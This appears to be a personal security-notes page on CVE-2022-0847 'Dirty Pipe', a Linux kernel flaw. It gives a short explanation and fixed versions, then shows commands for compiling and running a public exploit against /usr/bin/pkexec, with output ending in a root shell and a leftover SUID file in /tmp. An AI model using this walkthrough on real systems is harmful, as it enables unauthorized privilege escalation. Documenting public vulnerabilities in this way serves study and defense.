 ```yaml
---
title : "CVE-2022-0847"
# pre : ' '
description : "The Dirty Pipe Vulnerability."
date : 2022-03-08T10:20:03+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-0847 - The Dirty Pipe Vulnerability

This is the story of CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.

It is similar to CVE-2016-5195 “Dirty Cow” but is easier to exploit.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.

### Compiling

{{%attachments fa_icon_class="far fa-file" pattern=".*(c)"/%}}

```plain
$ gcc dirtypipez.c -o dirtypipez

$ file dirtypipez         
dirtypipez: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7aee8d04713d6c27bc73e3f5fb59b1eee5feeaf, for GNU/Linux 3.2.0, not stripped
```

### Exploiting

```plain
$ id
uid=1000(crypt0rr) gid=1000(crypt0rr) groups=1000(crypt0rr)

$ ./dirtypipez /usr/bin/pkexec
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# 
```

The vulnerable binary is run from `/tmp/sh`. Remember to remove it after using/re-using.

```plain
$ ls -l /tmp/sh
-rwsr-xr-x 1 root crypt0rr 186 Mar  8 10:19 /tmp/sh
```

## URL List

* [Dirtypipe.cm4all.com - The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
* [Cve.mitre.org - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
* [Twitter.com - CVE-2022-0847 Dirty Pipe](https://twitter.com/jas502n/status/1500879361448493056?s=11)
